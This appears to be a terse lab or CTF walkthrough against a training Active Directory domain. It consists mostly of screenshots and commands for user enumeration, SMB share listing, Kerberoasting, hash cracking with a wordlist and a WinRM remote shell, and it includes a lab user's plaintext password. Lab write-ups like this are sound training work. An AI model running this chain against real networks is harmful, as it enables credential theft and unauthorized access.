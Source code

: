 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
smbmap -u "amaslova" -p "NeverGiv3up" -H 192.168.2.4 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ff4437ae-ad83-4ff8-a001-f5bab1712848)
```
impacket-GetUserSPNs 'codeby.cdb/amaslova:PASS' -dc-ip 192.168.2.4 -outputfile hashpass.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29c39627-ac70-4a32-8348-cfea43f12512)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hashpass.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9dde67b3-b7c3-4d3d-82a3-3fd03297327f)
```
evil-winrm -i 192.168.2.4 -u 'dsemenov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b924c1de-6064-458e-aa9d-581579ab75cd)

